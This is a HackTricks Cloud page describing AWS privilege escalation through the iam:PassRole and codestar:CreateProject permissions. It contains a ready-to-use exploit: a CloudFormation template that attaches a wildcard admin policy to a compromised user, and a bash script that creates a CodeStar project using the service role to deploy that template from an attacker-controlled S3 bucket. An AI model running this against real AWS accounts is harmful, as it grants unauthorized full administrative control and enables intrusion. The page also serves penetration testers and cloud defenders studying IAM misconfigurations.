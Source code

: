 # iam:PassRole, codestar:CreateProject

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

With these permissions you can **abuse a codestar IAM Role** to perform **arbitrary actions** through a **cloudformation template**.

To exploit this you need to create a **S3 bucket that is accessible** from the attacked account. Upload a file called `toolchain.json` . This file should contain the **cloudformation template exploit**. The following one can be used to set a managed policy to a user under your control and **give it admin permissions**:

{% code title="toolchain.json" %}
```json
{
    "Resources": {
        "supercodestar": {
            "Type": "AWS::IAM::ManagedPolicy",
            "Properties": {
                "ManagedPolicyName": "CodeStar_supercodestar",
                "PolicyDocument": {
                    "Version": "2012-10-17",
                    "Statement": [
                        {
                            "Effect": "Allow",
                            "Action": "*",
                            "Resource": "*"
                        }
                    ]
                },
                "Users": [
                    "<compromised username>"
                ]
            }
        }
    }
}
```
{% endcode %}

Also **upload** this `empty zip` file to the **bucket**:

{% file src="../../../../.gitbook/assets/empty.zip" %}

Remember that the **bucket with both files must be accessible by the victim account**.

With both things uploaded you can now proceed to the **exploitation** creating a **codestar** project:

```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
    {
        \"source\": {
            \"s3\": {
                \"bucketName\": \"privesc\",
                \"bucketKey\": \"empty.zip\"
            }
    },
        \"destination\": {
            \"codeCommit\": {
                \"name\": \"$PROJECT_NAME\"
            }
        }
    }
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
    \"source\": {
        \"s3\": {
            \"bucketName\": \"privesc\",
            \"bucketKey\": \"toolchain.json\"
        }
    },
    \"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
    --name $PROJECT_NAME \
    --id $PROJECT_NAME \
    --source-code file://$SOURCE_CODE_PATH \
    --toolchain file://$TOOLCHAIN_PATH
```

This exploit is based on the **Pacu exploit of these privileges**: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997) On it you can find a variation to create an admin managed policy for a role instead of to a user.

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
